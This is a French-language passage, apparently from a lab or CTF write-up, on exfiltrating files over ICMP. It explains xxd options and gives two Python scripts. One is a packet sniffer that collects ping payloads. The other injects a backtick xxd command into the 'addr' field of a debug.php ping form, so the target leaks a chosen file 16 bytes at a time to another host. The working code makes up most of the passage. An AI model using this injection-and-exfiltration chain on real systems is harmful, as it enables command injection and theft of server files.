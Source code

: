 Mais à la place des caractères hexa de *ABCD*... il faut inclure l'output de commandes ou bien la représentation hexadécimale d'un fichier. C'est là que *xxd* intervient. *xxd* est un visualiseur hexadécimal qui par défaut affiche les offsets, sépare les codes hexa en colonnes et affiche aussi la représentation textuelle.  

Seulement avec l'option *-p* on peut obtenir un output plus brut. L'option *-l* permet quand à elle de spécifier la taille de données à afficher et enfin l'option *-s* permet de dire à quelle position du fichier on commence. Par exemple  

```bash
xxd -p -l 16 -s 16 fichier
```

retourne les codes hexa des octets 16 à 32 de fichier.  

On reprend notre script d'écoute précédent et on le rectifie pour qu'il puisse afficher directement les 16 derniers octets des paquets ICMP reçus :  

```python
import pcapy
from impacket import ImpactDecoder, ImpactPacket
import fcntl
import sys

sniff = pcapy.open_live("eth0", 65536, 1, 0)
decoder = ImpactDecoder.EthDecoder()

while True:
    (header, packet) = sniff.next()
    ethernet = decoder.decode(packet)

    if ethernet.get_ether_type() == ImpactPacket.ARP.ethertype: # ARP
        continue
    elif ethernet.get_ether_type() == ImpactPacket.IP.ethertype: # ARP
        ip = ethernet.child()
        if ip.get_ip_p() == ImpactPacket.UDP.protocol:
            continue
        if ip.get_ip_p() == ImpactPacket.TCP.protocol:
            continue
        if ip.get_ip_p() == ImpactPacket.ICMP.protocol:
            icmp = ip.child()
            if icmp.get_icmp_type() == ImpactPacket.ICMP.ICMP_ECHO:
                if ip.get_ip_src() == "192.168.1.21" and ip.get_ip_dst() == "192.168.1.3":
                    data = icmp.child().get_buffer_as_string()
                    l = len(data)
                    payload = data[l-16:]
                    sys.stdout.write(payload)
                    sys.stdout.flush()
```

et côté web :  

```python
import sys
import requests

fname = sys.argv[1]
hdrs = {"Content-Type": "application/x-www-form-urlencoded"}
data = {'addr': 'command'}

for i in range(0, 20000):
    ping_args = "-c 1 -s 32 -p `xxd -p -l 16 -s {0} {1}` 192.168.1.3".format(i*16, fname)
    data['addr'] = ping_args
    requests.post("http://192.168.1.21/debug.php", data=data, headers=hdrs)
```
